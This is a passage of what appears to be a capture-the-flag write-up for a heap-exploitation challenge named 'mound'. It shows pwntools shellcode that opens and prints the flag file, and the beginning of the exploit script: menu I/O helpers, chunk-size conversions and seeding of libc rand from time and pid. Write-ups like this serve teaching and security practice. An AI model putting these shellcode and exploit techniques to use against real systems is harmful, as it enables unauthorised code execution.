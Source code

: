Since the flag's filename is always 0x20+4 bytes long, the beginning of the flag filename will be at `rax-0x20` , and I can use `openat` again to write the flag to stdout:

```python
sc+= 'lea rbx, [rax-0x20]\n'
sc+= 'mov rax, QWORD PTR [{}]\n'.format(0xbeef0000000)
sc+= shellcraft.openat('rax', 'rbx', 0)          # i.e. shellcraft.cat('rbx'), but
sc+= shellcraft.read('rax', 0xdead0000000, 100)  # because pwntools uses SYS_open 
sc+= shellcraft.write(1, 0xdead0000000, 100)     # I have to do this in 3 lines.
```

### Getting the flag

For reference, this is what the full script should look like at this point:

```python
from random import randint
from collections import namedtuple
from ctypes import CDLL
from pwnscripts import *

BEEF, DEAD = 0xbeef0000000, 0xdead0000000
mound_arena = namedtuple('mound_metadata', 'base ids mcache top')(DEAD, DEAD+0x8, DEAD+0x8008, DEAD+0x8010)
mound_data = namedtuple('beef', 'base mcache dents shellcode')(BEEF, BEEF+0x10, BEEF+0x10000, BEEF+0x100)
midxs = namedtuple('midb', 'prev_size_editor fakeid_provider strdup mcache_dup got_overwriter')(5, 6, 0, 1, 2)

context.binary = 'mound'
context.libc = 'libc.so.6'
libc = CDLL('libc.so.6')
t = libc.time(0)
r = context.binary.process()
libc.srand(t^r.pid)

# I/O methods
def choose(opt: int): r.sendlineafter(b'> ', str(opt))
def strdup(s: bytes, i: int):
    choose(1)
    r.sendafter(b'Pile: ', s)
    r.sendlineafter(b'index: ', str(i))
def add(midx: int, idx: int, s: bytes):
    choose(2)
    sz = midx2rsize(midx)
    assert sz < 0x1000
    assert len(s) <= sz
    r.sendlineafter('pile: ', str(sz))
    r.sendlineafter('index: ', str(idx))
    r.sendafter('Pile: ', s)
def edit(idx: int, s: bytes):
    choose(3)
    r.sendlineafter('index: ', str(idx))
    r.sendafter('pile: ', s)
def free(idx: int):
    choose(4)
    r.sendlineafter('index: ', str(idx))

def csize2midx(x:int): return (x>>4)-2
def midx2csize(i:int): return (i+2)<<4
def size2request(x:int): return x-0x10
def request2size(x:int): return x+0x10
def midx2rsize(i:int): return size2request(midx2csize(i))
def r64bit(): return libc.rand()+(libc.rand()<<32) # emulate rand64bit
def r64(): return randint(0, (1<<64)-1) # a separate, unrelated function to produce random numbers
```
